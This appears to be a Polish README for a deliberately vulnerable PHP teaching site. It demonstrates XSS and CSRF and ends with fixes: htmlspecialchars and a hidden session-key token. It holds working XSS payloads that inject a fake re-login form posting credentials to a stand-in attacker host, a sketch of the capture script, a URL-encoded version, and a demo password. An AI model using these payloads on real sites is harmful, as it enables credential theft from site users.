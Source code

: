 # Konfiguracja

* Wrzucić wszystkie pliki na serwer obsługujacy PHP.
* Uruchomić w przeglądarce stronę `index.php`
* W pole wyszukiwania `szukaj.php` wklejać poniższe przykłady kodu aby wyświetlić alert lub wstrzyknąć formularz przypominający logowanie, a w rzeczywistości wysyłający dane do hackera.



# XSS

### XSS - sprawdzanie podatności inputa

	"><script>alert('hacked');</script>



### XSS - kod wyświetlający fikcyjny formularz proszący o logowanie

	"><script>
	document.getElementById('container').innerHTML='<h1>Logowanie</h1>												 												
	Uwaga. Zostałeś wylogowany. Ze względów bezpieczeństwa jesteś proszony o ponowne zalogowanie.
	<form action="http://www.strona-hackera.pl/formularz_przechwytujacy_haslo.php" method="post">
	Login: <input type="text" name="login"><br />
	Hasło: <input type="password" name="password"><br />
	<input type="submit" name="submit" value="zaloguj" />
	</form>
	';
	</script>




### Kod dołączający bibliotekę jQuery z serwera Google


	<script type='text/javascript' src='http://ajax.googleapis.com/ajax/libs/jquery/1.4.2/jquery.min.js'></script>



### Kod dołączający bibliotekę jQuery z localhost 


	<script type='text/javascript' src='jquery.min.js'></script>



### XSS - kod wyświetlający fikcyjny formularz proszący o logowanie
Kod jest wywoływany dopiero po załadowaniu całego dokumentu DOM (Document Object Model).

	">
	<script type='text/javascript' src='jquery.min.js'></script>
	<script>
	$(function() {
	document.getElementById('container').innerHTML='<h1>Logowanie</h1>												 												
	Uwaga. Zostałeś wylogowany. Ze względów bezpieczeństwa jesteś proszony o ponowne zalogowanie.
	<form action="http://www.strona-hackera.pl/formularz_przechwytujacy_haslo.php" method="post">
	Login: <input type="text" name="login"><br />
	Hasło: <input type="password" name="password"><br />
	<input type="submit" name="submit" value="zaloguj" />
	</form>
	';
	})											
	</script>


Treść pliku `formularz_przechwytujacy_haslo.php` który znajduje się na serwerze hackera.
	
	<?

	// odczyt przechwyconych danych
	$_POST['login'];
	$_POST['password'];
	
	// wysłanie danych do hackera
	// mail() lub zapis do pliku
	// ...

	?>




### po parsowaniu 


	%22%3e%20%3c%73%63%72%69%70%74%20%74%79%70%65%3d%27%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%27%20%73%72%63%3d%27%6a%71%75%65%72%79%2e%6d%69%6e%2e%6a%73%27%3e%3c%2f%73%63%72%69%70%74%3e%20%3c%73%63%72%69%70%74%3e%20%24%28%66%75%6e%63%74%69%6f%6e%28%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%27%63%6f%6e%74%61%69%6e%65%72%27%29%2e%69%6e%6e%65%72%48%54%4d%4c%3d%27%3c%68%31%3e%4c%6f%67%6f%77%61%6e%69%65%3c%2f%68%31%3e%20%55%77%61%67%61%2e%20%5a%6f%73%74%61%c5%82%65%c5%9b%20%77%79%6c%6f%67%6f%77%61%6e%79%2e%20%5a%65%20%77%7a%67%6c%c4%99%64%c3%b3%77%20%62%65%7a%70%69%65%63%7a%65%c5%84%73%74%77%61%20%6a%65%73%74%65%c5%9b%20%70%72%6f%73%7a%6f%6e%79%20%6f%20%70%6f%6e%6f%77%6e%65%20%7a%61%6c%6f%67%6f%77%61%6e%69%65%2e%20%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%73%74%72%6f%6e%61%2d%68%61%63%6b%65%72%61%2e%70%6c%2f%66%6f%72%6d%75%6c%61%72%7a%5f%70%72%7a%65%63%68%77%79%74%75%6a%61%63%79%5f%68%61%73%6c%6f%2e%70%68%70%22%20%6d%65%74%68%6f%64%3d%22%70%6f%73%74%22%3e%20%4c%6f%67%69%6e%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%22%74%65%78%74%22%20%6e%61%6d%65%3d%22%6c%6f%67%69%6e%22%3e%3c%62%72%20%2f%3e%20%48%61%73%c5%82%6f%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%22%70%61%73%73%77%6f%72%64%22%20%6e%61%6d%65%3d%22%70%61%73%73%77%6f%72%64%22%3e%3c%62%72%20%2f%3e%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%22%73%75%62%6d%69%74%22%20%6e%61%6d%65%3d%22%73%75%62%6d%69%74%22%20%76%61%6c%75%65%3d%22%7a%61%6c%6f%67%75%6a%22%20%2f%3e%20%3c%2f%66%6f%72%6d%3e%20%27%3b%20%7d%29%20%3c%2f%73%63%72%69%70%74%3e


### Ten sam kod co wyżej tylko z linkiem do biblioteki jquery umieszczonej na stronie Google


	">
	<script type='text/javascript' src='http://ajax.googleapis.com/ajax/libs/jquery/1.4.2/jquery.min.js'></script>
	<script>
	$(function() {
	document.getElementById('container').innerHTML='<h1>Logowanie</h1>												 												
	Uwaga. Zostałeś wylogowany. Ze względów bezpieczeństwa jesteś proszony o ponowne zalogowanie.
	<form action="http://www.strona-hackera.pl/formularz_przechwytujacy_haslo.php" method="post">
	Login: <input type="text" name="login"><br />
	Hasło: <input type="password" name="password"><br />
	<input type="submit" name="submit" value="zaloguj" />
	</form>
	';
	})											
	</script>


* TIP: Aby zabezpieczyć pole wyszukiwania należy na $_GET['fraza'] wywołać funkcję htmlspecialchars





# CSRF

Użytkownik `jankowalski` klucz dla hasła: `qwerty` to `e98f3f7e74ae2a0093ece6ab335ee78ce98c9fa2`.


### Sposób zabezpieczenia formularza zmiany hasła:

Linia ~246

	if($password_1 == $password_2 AND $_COOKIE['session_key'] == $_POST['session_key'])

Do formularza należy dodać ukryty input:

	<input type="hidden" name="session_key" value="'.$_COOKIE['session_key'].'" />
